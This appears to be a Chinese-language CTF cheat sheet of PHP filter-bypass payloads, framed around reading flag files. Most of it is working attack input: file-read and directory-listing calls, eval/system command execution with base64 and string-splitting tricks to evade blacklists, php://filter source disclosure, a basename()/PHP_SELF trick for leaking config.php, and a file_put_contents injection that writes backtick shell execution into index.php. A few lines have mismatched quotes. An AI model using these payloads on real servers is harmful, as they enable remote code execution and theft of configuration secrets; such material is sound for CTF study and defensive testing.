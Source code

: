 u在线php运行：<https://www.jyshare.com/compile/1/>



## **php常见特殊函数和绕过**
**文件包含函数 绕过一些禁用函数**
如果是$_POST，直接蚁剑连，用插件绕过
c=highlight_file("config.php");        //文件内容包含高亮。
c=show_source('flag.php');
c=highlight_file(next(array_reverse(scandir(pos(localeconv())))));
c=print_r(scandir(dirname('__FILE__')));
// ( [0] => 。 [1] => .. [2] => flag.php [3] => index.php ) 
c=var_dump(file('flag.php'));
c=readfile('flag.php');
c=print_r(file('flag.php'));
c=show_source(file(''flag.php));
c=echo file_get_contents('flag.php');

^
**代码执行函数**
eval('system('cat /flag'); ');         //会将字符串当作PHP代码执行，注意分号。

eval('system('cat /flag')?> ');    // 分号可以用?>替换。 且后面代码也会正常执行。

/?c=eval($_GET[a]);&a=system('cat flag.php');  //绕过eval有限制。
/?c=eval($_GET[a])?>&a=system('cat flag.php');  //绕过eval有限制。过滤了;
eval('eval($_GET[a])?>')  

/?c=include"$_GET[a]"?>&a=php://filter/read=convert.base64-encode/resource=flag.php //过滤了(
/?c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php //过滤了( 双引号"

eval("$x='sys';  $y='tem';  $z=$x.$y;  $z('cat config.php');" );         //绕过过滤。

eval('base64_decode("c3lzdGVt");$b=base64_decode("Y2F0IGNvbmZpZy5waHA=");$a($b);');        //base64编码绕过。

assert()可以将整个字符串参数当作php参数执行
而类似的eval()函数是执行合法的php代码，eval()里的引号必须是双引号，因为单引号不能解析字符串里的变量$str，且必须以分号结尾，函数调用除外。
```
<?php
echo eval(echo 1);
?>
不行，需改成下面：
<?php
echo eval("echo 1;");
?>
```

^
print_r(file_get_contents(/flagg')); //打印获取文件的内容
var_dump(scandir(/);  //查看根目录
var_dump(scandir(chr(47))); //查看根目录

var_dump(file_get_contents(/flagg')); //打印获取文件的内容。file_get_content()也可以读取php://filter伪协议。
var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)));  //绕过打印flag


^

命令执行找flag文件：find / -name flag*
递归搜当前目录下内容：grep -r "flag{" .

php内的"\"在做代码执行的时候，会识别特殊字符串，绕过黑名单。
如\system

^
## **basename()场景漏洞**
源代码：
```
if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}
if (isset($_GET['source'])) {
    highlight_file(basename($_SERVER['PHP_SELF']));
}
```
我们要包含高亮config.php
`$_SERVER['PHP_SELF']`会获取我们当前的访问路径，并且PHP在根据URI解析到对应文件后会忽略掉URL中多余的部分，即若访问存在的index.php页面，如下两种UR均会访问到。
```
/index.php
/index.php/dosent_exist.php
```
`basename`可以理解为对传入的参数路径截取最后一段作为返回值，但是该函数发现最后一段为不可见字符时会退取上一层的目录，basename只能转换ASCII码内的字符。即：
```
$var1="/config.php/test"
basename($var1)	=> test
$var2="/config.php/%ff"
basename($var2)	=>	config.php
```
`$_SERVER['PHP_SELF']`提交index.php/config.php时，经过basename过滤后只剩下config.php，需要绕过的只有正则，basename只能转换ASCII码内的字符，通过超过ASCII码范围的字符进行绕过。

接下来就显然了，通过构造URI让其包含`config.php`这个文件名再让`basename`函数截取出来，之后通过请求参数`source`就能显示`config.php`的源码，也就能见到`flag`了。
```
/index.php/config.php/%ff?source
```


^
## **file_put_contents()场景写文件漏洞**
对于
```
if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        die('hacker!!!');
}
file_put_contents("index.php", $input)
```
可以传入绕过
```
<?=`ls\t/*`?>
<?=`cat\t/flllllll1112222222lag`?>
```